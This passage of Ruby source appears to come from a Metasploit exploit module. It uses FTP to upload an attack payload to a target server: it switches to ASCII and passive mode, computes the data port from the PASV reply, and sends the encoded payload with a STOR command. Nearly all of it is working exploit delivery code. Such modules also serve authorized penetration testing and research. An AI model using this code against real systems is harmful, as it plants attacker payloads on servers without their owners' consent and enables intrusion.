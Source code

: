 ```ruby
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure changing directory to files")
      end
      
      # ascii mode
  
      sock.puts("TYPE a\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('200')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failed to switch to ASCII mode")
      end
  
      # Put into passive mode
  
      sock.puts("PASV\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('227')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure to enter PASV mode")
      end
    
      port_strings = res.split(",")
      v1 = port_strings[4].to_i 
      v2 = port_strings[5][0..1].to_i 
      
      dataport = 256 * v1 + v2
      print_status("#{rhost}:#{ftp_port} - Data port is #{dataport}")
      
      filedata = payload.encoded
  
      print_status("#{rhost}:#{dataport} - Opening connection on FTP data port")
      sock2 = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => dataport)
  
      if sock2.nil?
          fail_with(Failure::Unreachable, "#{rhost}:#{ftp_port} - Failed to connect to FTP DATA port")
        else
          print_status("#{rhost}:#{ftp_port} - Connected to FTP DATA port")
        end
  
      # STOR
      sock.puts("STOR #{payload_name}\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('150')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure establish STOR connection")
      end
  
      print_status("#{rhost}:#{ftp_port} - Received code 150. Good to proceed with upload")
  
      sock2.puts(filedata)
      sock2.close
  
      res = sock.get_once(-1, 10)
      unless res && res.include?('226')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Error sending file data")
      end
  
      # ascii mode
  
      sock.puts("TYPE a\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('200')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failed to switch to ASCII mode")
      end
  
```